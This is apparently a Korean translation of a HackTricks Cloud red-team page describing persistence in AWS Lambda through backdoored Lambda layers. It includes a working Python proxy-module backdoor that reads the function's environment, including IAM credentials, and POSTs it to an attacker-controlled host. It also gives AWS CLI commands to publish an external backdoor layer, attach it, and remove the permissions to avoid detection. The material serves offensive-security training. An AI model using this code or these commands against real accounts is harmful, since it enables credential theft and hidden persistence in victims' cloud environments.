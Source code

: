 # AWS - Lambda Layers Persistence

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 **공유**하세요.

</details>
{% endhint %}

## Lambda Layers

Lambda 레이어는 **추가 코드** 또는 다른 콘텐츠를 포함할 수 있는 .zip 파일 아카이브입니다. 레이어에는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

함수 당 최대 **다섯 개의 레이어를 포함**할 수 있습니다. 함수에 레이어를 포함하면 **콘텐츠가 실행 환경의 `/opt` 디렉토리로 추출**됩니다.

**기본적으로** 생성하는 **레이어**는 **AWS 계정에 대해 비공개**입니다. 레이어를 다른 계정과 **공유**하거나 레이어를 **공개**로 만들 수 있습니다. 다른 계정이 게시한 레이어를 함수가 사용하는 경우, 함수는 **레이어 버전을 삭제한 후에도 계속 사용**할 수 있거나 레이어에 대한 액세스 권한이 취소된 후에도 사용할 수 있습니다. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키징합니다.

### Python 로드 경로

람다에서 Python이 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**두 번째**와 세 번째 **위치**가 있는 디렉토리에서 **람다 레이어**가 파일을 압축 해제하는 것을 확인하십시오: **`/opt/python/lib/python3.9/site-packages`** 및 **`/opt/python`**

{% hint style="danger" %}
공격자가 사용 중인 람다 **레이어에 backdoor를 설치**하거나 **하나를 추가**하여 **일반 라이브러리가 로드될 때 임의의 코드를 실행**하도록 한다면, 그는 각 람다 호출마다 악성 코드를 실행할 수 있게 될 것입니다.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* 피해자 코드에서 **로드된 라이브러리를 확인**합니다.
* **람다 레이어로 프록시 라이브러리를 생성**하여 **사용자 정의 코드를 실행**하고 **원래** 라이브러리를 **로드**합니다.

### 사전로드된 라이브러리

{% hint style="warning" %}
이 기술을 남용할 때 어려움을 겪었습니다: 일부 라이브러리는 파이썬 런타임에서 코드가 실행될 때 **이미 로드되어 있었습니다**. `os`나 `sys`와 같은 것들을 찾을 것으로 예상했지만, **심지어 `json` 라이브러리도 로드되어 있었습니다**.\
이 지속성 기술을 남용하려면 코드가 실행될 때 **로드되지 않은 새 라이브러리를 로드**해야 합니다.
{% endhint %}

다음과 같은 파이썬 코드로 람다에서 파이썬 런타임 내에서 **사전로드된 라이브러리 목록**을 얻을 수 있습니다:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것이 **목록**입니다 (라이브러리들이 이미 있는지 확인하십시오 `os`나 `json` 같은)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
그리고 이것은 **lambda에 기본으로 설치된 라이브러리 목록**입니다: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda 레이어 백도어

이 예에서는 대상 코드가 **`csv`**를 가져오고 있다고 가정합시다. **`csv` 라이브러리의 가져오기에 백도어를 설치**할 것입니다.

이를 위해, lambda에서 로드되는 경로에 있는 **`/opt/python/lib/python3.9/site-packages`**에 **`__init__.py`** 파일이 있는 **csv 디렉토리를 생성**할 것입니다.\
그런 다음, 람다가 실행되고 **csv**를 로드하려고 시도할 때, **우리의 `__init__.py` 파일이 로드되고 실행**될 것입니다.\
이 파일은 다음을 수행해야 합니다:

* 페이로드 실행
* 원본 csv 라이브러리 로드

우리는 다음과 같이 두 가지를 할 수 있습니다:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
그럼, 이 코드를 **`python/lib/python3.9/site-packages/__init__.py`** 경로에 넣은 후 람다 레이어로 추가하는 zip 파일을 만듭니다.

이 코드는 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)에서 찾을 수 있습니다.

통합된 페이로드는 **람다 컨테이너의 재설정(코드 변경 또는 콜드 람다) 후 처음으로 호출될 때 IAM 자격 증명을 서버로 전송**하지만 **다른 기술**도 통합될 수 있습니다:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 외부 레이어

람다 레이어를 **외부 계정에서 사용**할 수 있음에 유의하십시오. 또한 람다는 권한이 없어도 외부 계정에서 레이어를 사용할 수 있습니다.\
또한 람다가 가질 수 있는 **최대 레이어 수는 5**입니다.

따라서 이 기술의 다양성을 향상시키기 위해 공격자는 다음을 수행할 수 있습니다:

* 사용자의 기존 레이어에 백도어 설치 (외부가 아님)
* **자신의 계정**에서 **레이어를 생성**하고 **피해자 계정에 레이어 사용 권한 부여**, 피해자의 람다에서 **레이어 구성** 및 **권한 제거**.
* **람다**는 여전히 **레이어를 사용**할 수 있고 피해자는 **레이어 코드를 다운로드하는 쉬운 방법이 없을 것**입니다 (람다 내에서 rev 쉘을 획들할 수 있음).
* 피해자는 **`aws lambda list-layers`**를 사용하여 **외부 레이어를 볼 수 없을 것**입니다.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우고 실습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우고 실습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하세요.

</details>
{% endhint %}
